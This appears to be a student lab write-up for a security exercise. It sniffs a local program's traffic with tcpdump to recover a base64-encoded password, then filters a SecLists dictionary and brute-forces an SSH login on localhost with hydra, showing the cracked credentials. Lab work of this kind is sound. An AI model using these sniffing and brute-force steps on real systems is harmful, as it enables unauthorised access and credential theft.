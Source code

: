 # Attack is the best defense
[x] 0-sniffing
No other traffic was in or out (filtering was need)
run tcpdump [install if not installed]
```console
foo@bar:~$ tcpdump -w dump

```

In a seperate shell run the alx executable [make executable if not already]
```console
foo@bar:~$ ./alx
```
open the dump in wireshark
found a line with pass in it and extract it and used a base64 decoder to get the password

[x] Dictionary attack
[source dictionary] (https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/xato-net-10-million-passwords.txt)
reduced by using hint given to smaller dictionary
```python
out = open("xato-11char.txt","w")
with open("xato-net-10-million-passwords.txt") as f:
	for line in f.readlines():
		if len(line.strip())==11:
			out.write(line)
out.close()
```

the used that with hydra

```console
foo@bar:~$ hydra -l sylvain -P xato-110char ssh://127.0.0.1 -s 2222
[WARNING] Many SSH configurations limit the number of parallel tasks, it is recommended to reduce the tasks: use -t 4
[DATA] max 16 tasks per 1 server, overall 16 tasks, 236238 login tries (l:1/p:236238), ~14765 tries per task
[DATA] attacking ssh://127.0.0.1:2222/
[2222][ssh] host: 127.0.0.1   login: sylvain   password: password123
1 of 1 target successfully completed, 1 valid password found
[WARNING] Writing restore file because 6 final worker threads did not complete until end.
[ERROR] 6 targets did not resolve or could not be connected
[ERROR] 0 targets did not complete
Hydra (https://github.com/vanhauser-thc/thc-hydra) finished at 2023-04-24 01:17:19
```

